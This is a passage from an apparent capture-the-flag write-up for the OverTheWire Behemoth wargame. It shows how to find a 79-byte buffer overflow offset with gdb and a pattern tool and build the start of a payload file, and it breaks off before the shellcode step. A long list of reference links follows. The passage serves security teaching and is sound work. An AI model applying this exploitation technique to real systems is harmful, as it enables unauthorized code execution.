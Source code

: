 _Enter `quit` to get out of [`gdb`][gdb]._

If you check out the output here, it shows you where the [segfault] occurs. That memory address is being overflowed and overwritten by what we pass into it; so if we give those hex values (the `63413663`, in my case) back to `pattern.py`, it can find where in the string that occurs. Check it out. 

```
john@john-Latitude-E7440:~/tools$ ./pattern.py offset 63413663
hex pattern decoded as: c6Ac
79
```

Sweet. So now we know it breaks after 79 characters in. That's all the garbage we really need to give it, anything after that can be the stuff we use to modify the code's execution.

In [the stack], immediately following those 79 characters (the entire buffer and I think the size of the stack frame), would be the memory address that the program would jump to in order to continue normal execution. It's like a `return` statement for a function; but more of a return 'location', in that the program would go to that address to continue the rest of program. 

We can overflow that memory address to anything we want. What's to stop us from changing it it to _exactly where we currently are_ and then filling a few more blocks of memory with [shellcode]?

Here, I'll show you. First, let's throw what we have so far into a file so we can [redirect][redirection] it into the program easily. We'll need to move to somewhere where we have [write permission][permissions], so I'll head to a [`/tmp/`][tmp] directory. 

```
behemoth1@melinda:/behemoth$ mkdir /tmp/cyber
behemoth1@melinda:/behemoth$ cd /tmp/cyber
behemoth1@melinda:/tmp/cyber$ python -c "print 'A'*79" > payload
behemoth1@melinda:/tmp/cyber$ cat payload
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

I use [Python] to quickly multiply strings, and even supply [hex] characters when the time comes. You can use the `-c` flag to just run a command as a string rather than load up the whole [interpreter].

Now if we give this file to the program inside [`gdb`][gdb], it will give us our [segfault], exactly as we expected.

```
behemoth1@melinda:/tmp/cyber$ gdb -q /behemoth/behemoth1
Reading symbols from /behemoth/behemoth1...(no debugging symbols found)...done.
(gdb) r < payload
Starting program: /games/behemoth/behemoth1 < payload
Password: Authentication failure.
Sorry.

Program received signal SIGSEGV, Segmentation fault.
0xf7e3da00 in __libc_start_main () from /lib32/libc.so.6
(gdb) 
```

Now if we add something more to this [payload], like some placemarkers to represent where our jumping memory address would go...


[netcat]: https://en.wikipedia.org/wiki/Netcat
[Wikipedia]: https://www.wikipedia.org/
[Linux]: https://www.linux.com/
[man page]: https://en.wikipedia.org/wiki/Man_page
[PuTTY]: http://www.putty.org/
[ssh]: https://en.wikipedia.org/wiki/Secure_Shell
[Windows]: http://www.microsoft.com/en-us/windows
[virtual machine]: https://en.wikipedia.org/wiki/Virtual_machine
[OS]: https://en.wikipedia.org/wiki/Operating_system
[VMWare]: http://www.vmware.com/
[VirtualBox]: https://www.virtualbox.org/
[hostname]: https://en.wikipedia.org/wiki/Hostname
[port number]: https://en.wikipedia.org/wiki/Port_%28computer_networking%29
[Ubuntu]: http://www.ubuntu.com/
[ISO]: https://en.wikipedia.org/wiki/ISO_image
[standard streams]: https://en.wikipedia.org/wiki/Standard_streams
[read]: http://ss64.com/bash/read.html
[variable]: https://en.wikipedia.org/wiki/Variable_%28computer_science%29
[command substitution]: http://www.tldp.org/LDP/abs/html/commandsub.html
[permissions]: https://en.wikipedia.org/wiki/File_system_permissions
[redirection]: http://www.tldp.org/LDP/abs/html/io-redirection.html
[tmp]: http://www.tldp.org/LDP/Linux-Filesystem-Hierarchy/html/tmp.html
[curl]: http://curl.haxx.se/
[cl1p.net]: https://cl1p.net/
[request]: http://www.w3.org/Protocols/rfc2616/rfc2616-sec5.html
[POST request]: https://en.wikipedia.org/wiki/POST_%28HTTP%29
[Python]: http://python.org/
[interpreter]: https://en.wikipedia.org/wiki/List_of_command-line_interpreters
[requests]: http://docs.python-requests.org/en/latest/
[urllib]: https://docs.python.org/2/library/urllib.html
[file handling with Python]: https://docs.python.org/2/tutorial/inputoutput.html#reading-and-writing-files
[bash]: https://www.gnu.org/software/bash/
[Assembly]: https://en.wikipedia.org/wiki/Assembly_language
[the stack]:  https://en.wikipedia.org/wiki/Stack_%28abstract_data_type%29
[register]: http://www.tutorialspoint.com/assembly_programming/assembly_registers.htm
[hex]: https://en.wikipedia.org/wiki/Hexadecimal
[archive file]: https://en.wikipedia.org/wiki/Archive_file
[zip file]: https://en.wikipedia.org/wiki/Zip_%28file_format%29
[gigabytes]: https://en.wikipedia.org/wiki/Gigabyte
[GB]: https://en.wikipedia.org/wiki/Gigabyte
[GUI]: https://en.wikipedia.org/wiki/Graphical_user_interface
[Wireshark]: https://www.wireshark.org/
[FTP]: https://en.wikipedia.org/wiki/File_Transfer_Protocol
[client and server]: https://simple.wikipedia.org/wiki/Client-server
[RETR]: http://cr.yp.to/ftp/retr.html
[FTP server]: https://help.ubuntu.com/lts/serverguide/ftp-server.html
[SFTP]: https://en.wikipedia.org/wiki/SSH_File_Transfer_Protocol
[SSL]: https://en.wikipedia.org/wiki/Transport_Layer_Security
[encryption]: https://en.wikipedia.org/wiki/Encryption
[HTML]: https://en.wikipedia.org/wiki/HTML
[Flask]: http://flask.pocoo.org/
[SQL]: https://en.wikipedia.org/wiki/SQL
[and]: https://en.wikipedia.org/wiki/Logical_conjunction
[Cyberstakes]: https://cyberstakesonline.com/
[cat]: https://en.wikipedia.org/wiki/Cat_%28Unix%29
[symbolic link]: https://en.wikipedia.org/wiki/Symbolic_link
[ln]: https://en.wikipedia.org/wiki/Ln_%28Unix%29
[absolute path]: https://en.wikipedia.org/wiki/Path_%28computing%29
[CTF]: https://en.wikipedia.org/wiki/Capture_the_flag#Computer_security
[Cyberstakes]: https://cyberstakesonline.com/
[OverTheWire]: http://overthewire.org/
[Leviathan]: http://overthewire.org/wargames/leviathan/
[ls]: https://en.wikipedia.org/wiki/Ls
[grep]: https://en.wikipedia.org/wiki/Grep
[strings]: http://linux.die.net/man/1/strings
[ltrace]: http://linux.die.net/man/1/ltrace
[C]: https://en.wikipedia.org/wiki/C_%28programming_language%29
[strcmp]: http://linux.die.net/man/3/strcmp
[access]: http://pubs.opengroup.org/onlinepubs/009695399/functions/access.html
[system]: http://linux.die.net/man/3/system
[real user ID]: https://en.wikipedia.org/wiki/User_identifier
[effective user ID]: https://en.wikipedia.org/wiki/User_identifier
[brute force]: https://en.wikipedia.org/wiki/Brute-force_attack
[for loop]: https://en.wikipedia.org/wiki/For_loop
[bash programming]: http://tldp.org/HOWTO/Bash-Prog-Intro-HOWTO.html
[Behemoth]: http://overthewire.org/wargames/behemoth/
[gets]: http://www.cplusplus.com/reference/cstdio/gets/
[buffer overflow]: https://en.wikipedia.org/wiki/Buffer_overflow
[try harder]: https://www.offensive-security.com/when-things-get-tough/
[segmentation fault]: https://en.wikipedia.org/wiki/Segmentation_fault
[seg fault]: https://en.wikipedia.org/wiki/Segmentation_fault
[segfault]: https://en.wikipedia.org/wiki/Segmentation_fault
[shellcode]: https://en.wikipedia.org/wiki/Shellcode
[sploit-tools]: https://github.com/SaltwaterC/sploit-tools
[Kali]: https://www.kali.org/
[Kali Linux]: https://www.kali.org/
[gdb]: https://www.gnu.org/software/gdb/
[gdb tutorial]: http://www.unknownroad.com/rtfm/gdbtut/gdbtoc.html
[payload]: https://en.wikipedia.org/wiki/Payload_%28computing%29
[peda]: https://github.com/longld/peda
[git]: https://git-scm.com/
[home directory]: https://en.wikipedia.org/wiki/Home_directory
[NOP]: https://en.wikipedia.org/wiki/NOP
[examine]: https://sourceware.org/gdb/onlinedocs/gdb/Memory.html
[stack pointer]: http://stackoverflow.com/questions/1395591/what-is-exactly-the-base-pointer-and-stack-pointer-to-what-do-they-point
[little endian]: https://en.wikipedia.org/wiki/Endianness
[big endian]: https://en.wikipedia.org/wiki/Endianness
[endianness]: https://en.wikipedia.org/wiki/Endianness
[pack]: https://docs.python.org/2/library/struct.html#struct.pack
[dash]: https://en.wikipedia.org/wiki/Almquist_shell